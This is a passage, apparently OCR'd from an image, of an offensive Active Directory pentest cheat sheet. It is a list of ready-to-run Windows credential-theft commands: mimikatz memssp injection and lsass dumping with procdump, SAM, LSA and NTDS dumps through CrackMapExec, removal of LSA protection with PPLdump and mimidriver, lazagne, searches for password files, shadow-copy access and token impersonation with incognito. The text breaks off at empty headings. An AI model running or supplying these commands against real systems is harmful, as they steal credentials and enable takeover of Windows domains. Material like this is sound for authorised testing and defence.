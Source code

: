 - mimikatz "privilege::debug" "misc::memssp" "exit"

	- C:\Windows\System32\kiwissp.log

### ...

## Administrator access

### get credentials

- procdump.exe -accepteula -ma lsass.exe lsass.dmp

	- mimikatz "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" "exit"

- mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
- post/windows/gather/smart_hashdump

	- hashdump

- cme smb <ip_range> -u <user> -p <password> -M lsassy
- cme smb <ip_range> -u <user> -p '<password>' --sam / --lsa / --ntds

### LSA as a Protected Process

- PPLdump64.exe <lsass.exe|lsass_pid> lsass.dmp
- mimikatz "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "token::elevate"  "sekurlsa::logonpasswords" "!processprotect  /process:lsass.exe" "!-" #with mimidriver.sys 

### search password files

- findstr /si 'password' *.txt *.xml *.docx

### search stored password 

- lazagne.exe all

### shadow copies

- diskshadow list shadows all

	- mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\

### token manipulation

- .\incognito.exe list_tokens -u

	- .\incognito.exe execute -c "<domain>\<user>" powershell.exe

- use incognito

	- impersonate_token <domain>\\<user>

### dpapi extract

## Low hanging fruit
